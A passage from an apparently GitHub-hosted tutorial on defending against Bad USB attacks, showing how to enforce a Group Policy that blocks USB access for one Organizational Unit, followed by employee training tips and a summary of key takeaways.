

Select the dropdown for the OU the GPO was linked to see the status.



Note that it is not currently enforced. Right click and select Enforced.



Force the group policy update using the gpupdate /force command on the client.



Attempt to open a USB.



Log out of the same machine and log in as Administrator and attempt to open a USB.



It opens because the Administrator account was not part of the Organization Unit, HQs Users. This demonstrates how Group Policy can be selectively applied.

### Discussion Points and Employee Training Tips

Awareness is the first line of defense against Bad USB attacks. Encourage employees to discuss USB safety, share stories about any unusual USB-related incidents, and collaborate on best practices. **Key topics for employee training** include:

- Identifying suspicious USB devices.
- Following corporate USB policies.
- Reporting found USB devices to IT security staff.

These conversations not only raise awareness but also foster a culture of security within the organization.

---

### Summary and Key Takeaways

Bad USB attacks are dangerous because they can bypass many security controls by disguising malicious actions as trusted functions. Here are the key takeaways from this discussion:

1. **Bad USBs are reprogrammable, making them capable of executing a range of malicious tasks.**
2. **Real-world examples, like Stuxnet and security conference demos, highlight the risks associated with USB devices.**
3. **Effective defenses include strict policies, technical controls, hardware security, and continuous user training.**